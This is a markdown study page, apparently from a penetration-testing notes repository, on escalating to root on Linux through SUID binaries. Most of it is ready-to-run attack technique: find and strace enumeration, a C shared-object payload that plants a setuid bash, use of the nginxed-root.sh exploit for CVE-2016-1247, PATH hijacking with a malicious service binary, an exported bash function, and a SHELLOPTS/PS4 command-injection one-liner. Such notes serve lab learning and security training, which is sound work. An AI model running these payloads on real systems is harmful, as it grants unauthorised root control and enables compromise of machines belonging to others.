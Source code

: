 # Escalation via SUID

## Enumeration

- `find / -perm -u=s -type f 2>/dev/null`  will list all the files with the suid perm
- You can see the suid perm in the permissions as an `s` like here:  
![image](https://user-images.githubusercontent.com/96747355/167308910-5b0a0157-6586-46bd-a213-42c229e996e8.png)  

## Exploitation

- Here again we can use [GTFOBins](https://gtfobins.github.io/#+suid) and check if our command is in there and has documented exploitation


## Practice

- You see and example of this exploit in [this writeup](../writeups/THM-vulnversity.md)

## SUID - Shared Object Injection

### Enumeration

- `find / -type f -perm -04000 -ls 2>/dev/null` 
- `ls -al nameoffile`

### Exploitation

- In our example the file is `/usr/local/bin/suid-so`
- `strace /usr/local/bin/suid-so 2>&1` with a grep on what could be interesting `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"` this will show us what happens with the file. This is the place to check if we have rights on one of the file it uses. In our example we will use the file in this output `open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)`
- Once we find a file we can try to overwrite it with a payload to elevate our privileges
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() { 
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
- We make a directory for our file 
- We compile our file `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c` in my example the file I will overright is `/home/user/.config/libcalc.so`
- This way we just need to run the sid file which is `/usr/local/bin/suid-so` in our example
- And it should give us a root prompt  
![image](https://user-images.githubusercontent.com/96747355/170128114-817d12e9-27bf-429c-9682-6e29222cdcb4.png)  

## SUID - Binary Symlinks

- Issues on log created by nginx

### Enumeration 

- `./linuxexploitsuggester.sh` we should have this output `[+] [CVE-2016-1247] nginxed-root.sh` or we could manually look for this specific vulnerability by checking nginx version `dpkg -l | grep nginx`
- Now we need to check if the suid bit is set on sudo `find / -type f -perm -04000 -ls 2>/dev/null` or `ls -al /usr/bin/sudo`

### Exploitation

- `ls -al /var/log/nginx`
- We will need to create a malicious symlink
- We will use [this](https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh) to do so
- `./nginxed-root.sh /var/log/nginx/error.log`
- When nginx will be restarted, we will be root  
![image](https://user-images.githubusercontent.com/96747355/170131842-3acc1171-23de-4d18-9691-167cf4649cc6.png)  
- Check out [this resource](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) to learn more about this way to escalate

## SUID - Environmental Variables

### Enumeration 

- `find / -type f -perm -04000 -ls 2>/dev/null` we can then chek for env var with the suid bit activated in our example we have `/usr/local/bin/suid-env` this launches apache using service (we know this by making a strings on the file).  
![image](https://user-images.githubusercontent.com/96747355/170258997-532e61be-117c-4e9f-9ad9-a4e6c0644716.png)  

### Exploitation

- Let's create a malicious service and add it to our path so that it is launched instead of apache
- `echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
- `gcc /tmp/service.c -o /tmp/service`
- We now need to change our path `export PATH=/tmp:$PATH`  
![image](https://user-images.githubusercontent.com/96747355/170260619-089f2ad9-71ae-4dea-8283-a40ddbb0e5a7.png)  
- And now we just need to run the binary `/usr/local/bin/suid-env` to escalate to root  
![image](https://user-images.githubusercontent.com/96747355/170260873-6b5fa24d-658b-4ba2-b2a1-f2662a4ba839.png)  

## SUID - Environmental Variables with full path to binary

- `find / -type f -perm -04000 -ls 2>/dev/null` we can then chek for env var with the suid bit activated in our example we have `/usr/local/bin/suid-env2` this launches apache using its full path service (we know this by making a strings on the file).  
![image](https://user-images.githubusercontent.com/96747355/170265161-6ffb4183-13e3-418f-8317-5fb8ba1c1faf.png)  
- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }` instead of creating a malicious bin we create a malicious function
- `export -f /usr/sbin/service` then we export our function in the path
- `/usr/local/bin/suid-env2` finally we just need to launch the service  
**OR**  
- `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

